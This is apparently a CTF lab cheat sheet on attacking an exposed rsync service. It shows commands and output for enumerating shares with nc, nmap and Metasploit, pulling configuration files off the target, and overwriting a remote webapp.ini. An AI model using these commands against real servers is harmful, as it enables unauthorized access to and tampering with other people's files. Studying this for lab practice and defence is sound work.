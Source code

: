 
**rsync** is a utility for efficiently [transferring](https://en.wikipedia.org/wiki/File_transfer) and [synchronizing](https://en.wikipedia.org/wiki/File_synchronization) [files](https://en.wikipedia.org/wiki/Computer_file) between a computer and an external hard drive and across [networked](https://en.wikipedia.org/wiki/Computer_network) [computers](https://en.wikipedia.org/wiki/Computer) by comparing the [modification times](https://en.wikipedia.org/wiki/Timestamping_(computing))and sizes of files. It is commonly found on [Unix-like](https://en.wikipedia.org/wiki/Unix-like) [operating systems](https://en.wikipedia.org/wiki/Operating_system). The rsync algorithm is a type of [delta encoding](https://en.wikipedia.org/wiki/Delta_encoding), and is used for minimizing network usage. [Zlib](https://en.wikipedia.org/wiki/Zlib) may be used for additional [data compression](https://en.wikipedia.org/wiki/Data_compression), and [SSH](https://en.wikipedia.org/wiki/Secure_Shell) or [stunnel](https://en.wikipedia.org/wiki/Stunnel) can be used for security.

---
# Enumeration
## Manual
```bash
jagelito ~$ nc -vn 10.10.170.253 873
(UNKNOWN) [10.10.170.253] 873 (rsync) open
@RSYNCD: 31.0				# VERSION FROM THE SERVER
@RSYNCD: 31.0				# THEN YOU SEND THE SAME INFO
#list						# THEN YOU ASK THE SERVER TO LIST
Conf            All Confs	# SHARES
@RSYNCD: EXIT				# SERVER CLOSE CONNECTION
```

## Nmap
```bash
$ nmap -sC --script "rsync-list-modules" -p873 10.10.170.253
PORT    STATE SERVICE
873/tcp open  rsync
| rsync-list-modules: 
|_  Conf                All Confs
```

## MSF
```bash
msf> use auxiliary/scanner/rsync/modules_list
```

# List Shares

## rsync
Enumerate all shares
```bash
$ rsync -av --list-only rsync://10.10.170.253/Conf
receiving incremental file list
drwxrwxrwx          4,096 2021/04/10 22:03:08 .
-rw-r--r--          4,620 2021/04/09 22:01:22 access.conf
-rw-r--r--          1,341 2021/04/09 21:56:12 bluezone.ini
-rw-r--r--          2,969 2021/04/09 22:02:24 debconf.conf
-rw-r--r--            332 2021/04/09 22:01:38 ldap.conf
-rw-r--r--         94,404 2021/04/09 22:21:57 lvm.conf
-rw-r--r--          9,005 2021/04/09 21:58:40 mysql.ini
-rw-r--r--         70,207 2021/04/09 21:56:56 php.ini
-rw-r--r--            320 2021/04/09 22:03:16 ports.conf
-rw-r--r--            589 2021/04/09 22:01:07 resolv.conf
-rw-r--r--             29 2021/04/09 22:02:56 screen-cleanup.conf
-rw-r--r--          9,542 2021/04/09 22:00:59 smb.conf
-rw-rw-r--             72 2021/04/10 22:03:06 webapp.ini
```

Copy shares to local machine
```bash
$ rsync -av rsync://10.10.170.253/Conf ./rsync_share
receiving incremental file list
created directory ./rsync_share
./
access.conf
bluezone.ini
debconf.conf
ldap.conf
lvm.conf
mysql.ini
php.ini
ports.conf
resolv.conf
screen-cleanup.conf
smb.conf
webapp.ini
```


# Transfer files
```bash
jagelito ~$ rsync -av /home/jagelito/Ctf/thm/meta/content/rsync/rsync_shares/webapp.ini rsync://10.10.170.253/Conf/webapp.ini
sending incremental file list
webapp.ini

sent 187 bytes  received 41 bytes  456.00 bytes/sec
total size is 71  speedup is 0.31
```










## Resources
* https://book.hacktricks.xyz/pentesting/873-pentesting-rsync